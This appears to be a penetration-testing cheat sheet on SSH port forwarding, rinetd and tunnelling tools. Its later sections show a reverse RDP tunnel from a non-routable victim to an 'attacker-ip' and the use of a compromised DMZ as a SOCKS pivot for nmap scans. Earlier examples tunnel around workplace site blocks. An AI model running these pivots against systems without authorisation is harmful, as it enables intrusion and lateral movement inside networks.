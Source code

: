 # Port Forwarding

```
Local:   ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  ssh <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: ssh <gateway> -D <port to bind>

Local:   plink.exe <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  plink.exe <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: plink.exe <gateway> -D <port to bind>
```
## Local Port Forwarding

```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

#### Allow connections to a specific blocked server.

From work:
```
ssh -L 9001:banned-site.com:80 user@home
curl http://localhost:9001
```

Says we’re forwarding our local port 9001 to banned-site.com:80, through the gateway `home` (port 22).

![](https://chamibuddhika.files.wordpress.com/2012/03/localportforwarding.jpg)

```
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/sshsessionforwarding.jpg)

Allow remote connections to local port forwards (listening on all interfaces)
```
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine    #Remotely
```

#### Access a port on your server which can only be accessed from localhost and not remotely.

From local machine:
```
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

Server acts as the gateway and binds server's port 5432 to local port 9000.

## Remote Port Forwarding

#### Allow remote access to restricted network.

From work:
```
ssh -R 9001:intra-ssh-server:22 user@home
```
Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

From home:
```
ssh -p 9001 localhost
```

![](https://chamibuddhika.files.wordpress.com/2012/03/remoteportforwarding.jpg)

Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

#### Allow public access to a local resource through a public server.

```
ssh -R 9000:localhost:3000 user@public_sever
```
```
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

## Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

![](https://chamibuddhika.files.wordpress.com/2012/03/dynamicportforwarding.jpg)

## Tips
Monitoring Tunnels
```
netstat -tunelp
```

Avoid TTL
```
-nNT
```

## rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

## Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

## SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

## Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```
- https://github.com/sshuttle/sshuttle
- https://github.com/klsecservices/rpivot
- https://github.com/wolfSSL/wolfssh

## References

### Summarized References:
- https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
- https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/
- http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html
- https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html

### New References:
- https://vimeo.com/54505525
